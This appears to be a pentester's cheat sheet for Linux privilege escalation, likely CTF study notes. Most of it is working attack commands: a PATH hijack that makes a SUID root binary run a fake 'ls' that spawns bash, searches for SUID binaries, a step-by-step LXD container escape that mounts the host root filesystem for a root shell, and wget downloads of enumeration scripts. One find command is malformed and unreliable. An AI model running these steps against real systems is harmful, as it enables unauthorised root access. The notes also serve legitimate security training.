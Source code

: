 ### Malicious binary for SUID binary with PATH variable
- example: script runs 'ls' as root
- `cd /tmp`
- `echo "/bin/bash" > ls`
- `chmod +x ls`
- export PATH=/tmp:$PATH
- run the SUID binary

### Find command
- look for all files with `.log` extension: `find type -f -name "*.log 2>/dev/null"`
- also interesting files: .bak (backup), .conf (configuration)

### find SUID bit Linux
- `find / -perm -u=s -type f 2>/dev/null`
- `find / -perm 4000 2>/dev/null`

### Useful links
- GTFOBins: https://gtfobins.github.io/
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
- https://payatu.com/guide-linux-privilege-escalation
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation

### Privesc with LXD
- check if the user is member of lxd group: `id`
- on attacking machine:
    - Download build-alpine on your local machine via the git repository (https://github.com/lxd-images/alpine-3-7-apache-php5-6)
    - Execute the script "build -alpine" that will build the latest Alpine image as a compressed file. This must be executed by the root user.
    - Transfer this newly created tar file to the victim machine
- on victim machine:
    - Download the alpine image
    - Import image for lxd
    - Initialize the image inside a new container <- Worth checking the already imported/available images as you may be able to skip to this step
    - Mount the container inside the /root directory
- check what images are readily available on the machine: `lxc image list`
- `lxc init IMAGENAME CONTAINERNAME -c security.privileged=true` (containername can be anything)
- `lxc config device add CONTAINERNAME DEVICENAME disk source=/ path=/mnt/root recursive=true` (devicenam can also be anything)
- `lxc start CONTAINERNAME`
- `lxc exec CONTAINERNAME /bin/sh`
- mount storage and verity root escalation: `id` and `cd /mnt/root/root`
- more info here: https://www.hackingarticles.in/lxd-privilege-escalation/

### Useful privesc scripts
- LinEnum.sh, download: `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- LinPEAS: `wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh`
- linuxprivchecker.py
- unixprivesc.py
